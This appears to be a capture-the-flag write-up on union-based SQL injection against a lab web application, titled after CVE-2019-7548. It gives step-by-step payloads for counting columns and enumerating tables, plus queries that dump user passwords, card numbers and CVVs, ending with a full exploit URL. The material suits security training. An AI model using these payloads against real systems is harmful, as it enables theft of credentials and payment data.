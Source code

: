 ```yaml
---
date: 2025-01-09
categories: [CTF, IML]
title: "IML - CVE-2019-7548 (SQLAlchemy)"
tags: ['john the ripper', 'privilege escalation', 'rce', 'sqli']

description: "CVE-2019-7548 (SQLAlchemy) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - CVE-2019-7548 (SQLAlchemy)


![image1](../resources/104530e8ce9144b8a7ca03ac32614d0e.png)
- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


![image2](../resources/d8bf8d75a94a4170a70d85c6b3ba5aad.png)

- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


![image3](../resources/984207172f12488180dea99b65e72f19.png)

- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)


![image4](../resources/45d4e42d268e4f15b847b63869a89c21.png)

- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
```bash
union select 1,2,3,4,5,6,7,@@version

```

![image5](../resources/f1c0775cca67428696907ffe913c20f1.png)


![image6](../resources/8044a757cc3b464fb34e869b2fc7a778.png)

- Answering the questions:


![image7](../resources/a2dd9612bc6748a585a84b6c592ff62f.png)

- First let's get the database name - and because it's MariaDB we use:
```bash
database()

```

![image8](../resources/7f234af64aac45ad8e1ff0f5c947d401.png)


![image9](../resources/dec72510ef8b447db6c52a9e5dd96063.png)

- We can now enumerate the tables with:
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```

![image10](../resources/6b0ecc57e49041fcb53f7cfe8362e3c6.png)


![image11](../resources/82862971d33e4232ac1702f82d18e392.png)

- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```

![image12](../resources/145d79b48ef74c3dbcb21e5f71d3d5df.png)


![image13](../resources/555d41cda3044677835d147a5a471cca.png)

- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


![image14](../resources/4b86829c5e38449f975d1b0dafc6b90e.png)


![image15](../resources/7a89bc3750c74a5ab5453c7f45f549d0.png)

- To narrow it down do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```

![image16](../resources/de5d883935e541b8ac32e77470a54c04.png)


![image17](../resources/a120b72b04354575bee352859d7e0a86.png)
- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```

![image18](../resources/d61564005d864108a738b68e5f912633.png)

- Use the following:
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```

![image19](../resources/c6b6ddc750aa47ba864f1e159c50b957.png)


![image20](../resources/6ff53b6b417f46ac9ddf011edf26bc22.png)

Full URL for this is:

`http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22`
